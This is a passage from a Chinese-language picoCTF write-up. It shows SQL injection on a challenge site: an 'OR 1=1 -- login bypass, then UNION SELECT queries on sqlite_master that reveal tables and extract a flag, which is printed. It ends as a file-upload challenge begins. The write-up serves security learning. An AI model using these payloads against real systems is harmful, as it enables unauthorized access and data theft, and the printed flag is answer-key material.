 ![題目](https://hackmd.io/_uploads/BySNOmYUC.png)

然後我們先嘗試使用`admin`作為帳號密碼登入。帳號密碼都輸入`admin`後按下登入，網頁會渲染一個我們剛剛輸入的帳號密碼，以及後台的使用者資訊的查詢語句，如下。

![image](https://hackmd.io/_uploads/r1wnu7KIR.png)

圖片有點小，總之他顯示的內容就是像下面這樣:

```
username: admin
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
```

所以我們在這邊把密碼用`'OR 1=1 --`這串 payload 作為輸入（帳號可以隨便輸入），整個 SQL 的 query 就會變成這樣:

```sql=
SELECT id FROM users WHERE password = ''OR 1=1 --' AND username = 'admin'
```

可以從上面的代碼高亮的顏色發現，在`1=1`後面的東西都被註解掉了，所以就可以直接登入系統啦！登入後會看到以下的介面:

![image](https://hackmd.io/_uploads/rJjw6XYUC.png)

他可以查詢 City 的名稱，但其實一筆資料包含了 City, Address, Phone。分析一下後台可能的 SQL 語句，應該是如下:

```sql=
SELECT city, address, phone FROM {TABLE_NAME} WHERE city = '';
```

再來因為題目有告訴我們系統使用的是 SQLite，所以會有一個叫做`sqlite_master`的表來儲存一些表格的各種資訊。（[資訊來源](https://blog.csdn.net/luoshabugui/article/details/108327936)）

知道這些候我們輸入`' UNION SELECT name, sql, 1337 FROM sqlite_master; --`讓整個 SQL 語句變成如下

```sql=
SELECT city, address, phone FROM {TABLE_NAME} WHERE city = '' UNION SELECT name, sql, 1337 FROM sqlite_master; --';
```

這邊我們使用聯集合併兩個查詢結果，因為第一個結果為空集合，所以返回的結果就會是 sqlite_master 的表格內容，如下:

![image](https://hackmd.io/_uploads/BysgmNY8R.png)

我們可以看到被紅色框框圈住的地方就是我們所想獲得的 flag，既然知道表格名稱，也知道表格的結構了，就把它查詢出來吧！使用這段 payload`' UNION SELECT 1, flag, 1 FROM more_table; --`。輸入後就可以看到以下的介面啦！

![image](https://hackmd.io/_uploads/SyoSNNtLA.png)

flag 就找到囉！

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
```

## Trickster

這題的題目是一個可以上傳 png 的網頁，看起來就是文件上船漏洞，頁面如下:
